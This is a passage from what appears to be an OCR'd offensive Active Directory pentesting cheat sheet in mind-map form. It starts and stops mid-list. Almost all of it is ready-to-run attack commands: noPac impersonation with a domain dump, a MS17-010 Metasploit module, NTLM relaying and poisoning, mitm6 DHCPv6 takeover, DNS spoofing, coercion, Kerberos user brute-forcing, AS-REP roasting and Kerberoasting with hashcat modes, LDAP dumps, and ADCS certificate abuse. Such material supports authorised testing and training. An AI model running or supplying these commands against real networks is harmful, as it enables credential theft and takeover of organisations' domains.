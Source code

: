         *   [NoPAC](https://github.com/Ridter/noPac.git)                  → `noPac.py [AUTH_STRING] --impersonate administrator -use-ldap -dump`
        *   MS17-010                → `use exploit/windows/smb/ms17_010_psexec`
        *   [MS14-068](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/CVE/MS14-068.md)             → Missing `KB3011780`
        *   [PrivExchange](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/CVE/PrivExchange/)     → User Shell with Exchange Mailbox
        *   [ZeroLogon](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/CVE/ZeroLogon/)
        *   SMBGhost
    *   NTLM Poisoning
        *   LLMNR
            *   `respond()`
            *   Web Exploits                      → LFI / XXE / SSRF / SQLi
            *   Phishing / Client Forms  → Responder Link / Bad-PDF / Bad-ODT / [NTLM\_Thef](https://github.com/Greenwolf/ntlm_theft) Office Files
            *   Cracking                              → `hashcat -m 5600`
        *   Unsigned Relaying
            *   `respond()`                                                                              → Set `HTTP/SMB = Off`
            *   `nxc smb [ALIVE_IPS] --gen-relay-list [OUT_FILE]` → List Vulnerable Servers
            *   `MultiRelay.py -t [VULN_SERVER_IP] -u ALL -d`
            *   `ntlmrelayx --no-http-server -smb2support -t [VULN_SERVER_IP]`
        *   DHCPv6 Takeover
            *   `sudo mitm6 -I [NIC] -d [DOMAIN]`
            *   `ntlmrelayx.py -6 -wh fakewpad.[DOMAIN] -t ldap://[DC_IP]:[PORT]`
        *   DNS Spoofing
            *   `dnstool.py -u '[DOMAIN\USER]' -p [PASSWORD] [DC_IP] -a add -r [NAME] -d [RESPONDER_IP] -t A`
            *   Passively Listen Hashes
        *   NTLM Coercion
            *   Check → `nxc smb [DC_IP] [AUTH_STRING] -M coerce_plus`
            *   Exploitation
                *   `respond()` / NTLMRelayx Listener
                *   `nxc smb [DC_IP] [AUTH_STRING] -M coerce_plus -o LISTENER=[RESPONDER_IP]` 
*   KB
    *   User Bruteforcing
        *   Wordlists → `usergen() [FULL_NAMES.txt]` / [Statistically Likely](https://github.com/insidetrust/statistically-likely-usernames) / Seclists Xato-Net + `Names.txt`
        *   `kerbrute userenum -d [DOMAIN] [GENERATED_USERS.txt] --dc [DC_IP]`
    *   Roasting
        *   ASREP
            *   Try Both Techniques
            *   `nxc ldap [DC_IP] -u [VALID_USERS.txt] -p '' --asreproast --kdcHost [DOMAIN]`
            *   `nxc ldap [DC_IP] [AUTH_STRING] --asreproast --kdcHost [DOMAIN]`
            *   Cracking → `hashcat -m 18200`
        *   KBR
            *   Try Both Techniques
            *   `nxc ldap              [DC_IP] [AUTH_STRING] --kerberoasting --kdcHost [DOMAIN]`
            *   `GetUserSPNs.py        [DOMAIN]/ -no-preauth [ASREP_USERNAME] -usersfile [VALID_USERS.txt] -dc-ip [DC_IP]`
            *   Cracking → `hashcat -m 13100`
*   LDAP
    *   User Enumeration
        *   `nxc ldap [DC_IP] [AUTH_STRING] --query "(sAMAccountType=805306368)" "sAMAccountName description memberOf"`
        *   `ldeep [AUTH_STRING] -d [DOMAIN] -s ldap://[DC_IP] all [OUT_DIR]` → Full DB Dump + [Output Parsing](https://github.com/franc-pentest/ldeep)
    *   Certificate Abuse
        *   [ESC Exploitations](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
        *   Enumeration
            *   `nxc ldap [DC_IP]    [AUTH_STRING] -M adcs`
            *   `certipy-ad find     [AUTH_STRING] -scheme ldap -debug -dc-ip [DC_IP] -vulnerable -stdout`
            *   `certipy-ad template [AUTH_STRING] -template [TEMPLATE_NAME] -dc-ip [DC_IP]`
        *   Template Hijacking